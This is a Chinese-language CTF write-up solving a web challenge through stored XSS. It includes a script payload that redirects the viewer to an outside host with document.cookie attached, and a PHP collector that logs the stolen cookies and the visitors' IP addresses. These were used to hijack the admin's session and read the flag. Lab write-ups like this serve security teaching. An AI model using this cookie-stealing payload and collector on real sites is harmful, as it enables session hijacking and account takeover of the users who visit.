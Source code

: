 # secure_page_service
這是一個類似部落格的網站，你可以創造文章，然後用密碼鎖起來，flag藏在某個被密碼鎖住的文章裡。
 * 看一下網頁source code，實際創帳號嘗試後，收集到的線索：
  1. 只有admin可以不需要密碼就能看文章，如果能得到他的session_id就能搶到flag
  2. 網站有persistent XSS漏洞：沒有過濾輸入是否是HTML程式碼就存到資料庫裡，然後直接顯示出來
  3. 回報問題，不久admin會來察看你的文章！！
那要怎麼偷呢？
 * 注意到2.讓我們可以把javascript程式碼存到資料庫裡，並且讓這段程式在看文章時執行，所以用javascript取得瀏覽者的cookie，並且將cookie傳送到另一個準備好的網站去。像這樣：
'''
</div>
<script>location.href=("http://ulkk1c611e83.lubebul.koding.io/php.php?cookie="+document.cookie)
</script>
'''
 * 準備的那個網站，我架在免費雲端平台Koding上，只要把cookie給存下來就偷到囉：
'''
<?php
$cookie = $_GET['cookie'];
$userip = getenv('REMOTE_ADDR');
$file = '/home/lubebul/Documents/cookies.txt';
$fout = fopen($file, 'a') or die("cannot create file");
fwrite($fout, 'from ip = '.$userip.', get cookie: '.$cookie);
fclose($fout);
echo "I've stolen your cookie! Hehe~";
?>
'''
 * 記得要給文章設密碼，然後回報問題等admin上當
 * 最後在用瀏覽器外掛，編輯cookie的值，成功取得
 Flag: wow_cross_site_scripting_is_such_web